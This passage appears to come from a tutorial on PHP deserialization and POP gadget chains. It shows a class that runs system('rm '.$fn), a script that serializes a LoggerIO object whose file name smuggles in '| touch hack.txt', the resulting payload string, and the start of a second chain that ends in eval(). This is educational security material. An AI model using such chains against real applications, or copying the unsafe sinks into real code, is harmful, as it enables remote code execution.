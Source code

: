 ```php
class IO {
    # ...some PHP code... #
    public function destroy($fn){
        system("rm ".$fn);
    }
}
```

So far, our initial gadget is the `__destruct()` magic method, which calls the `removeFile()` method. The `removeFile()` method then becomes our new gadget. Upon closer examination, we discover that the `destroy()` method is susceptible to classic remote code execution (RCE) vulnerabilities.

To exploit this vulnerability, we need to alter the value of the `LoggerIO` class property to a string like "log.txt | touch hack.txt." This alteration allows us to execute a command using the `destroy()` method within the `IO` class.

To create our final POP chain, we can utilize the following script:

```php
class LoggerIO
{
    public $fn = "dummy.txt | touch hack.txt";
}
print urlencode(serialize(new LoggerIO));
```

This script results in our final payload being submitted as the following serialized string:

```php
O:8:"LoggerIO":1:{s:2:"fn";s:26:"dummy.txt | touch hack.txt";}
```

In the next example, the declared magic methods in the classes do not contain code exploitable for our purposes. However, it is still possible to create POP chains in such cases. Consider the following classes:

```php
class LoadObjectInternal
{
    protected $obj;
    function __construct()
    {
        # ...some PHP code... #
    }
    function __wakeup()
    {
        if (isset($this->obj)) return $this->obj->run();
    }
}

class CodeLoad
{
    private $code;
    function run()
    {
        eval($this->code);
    }
}
# ...some PHP code... #
```
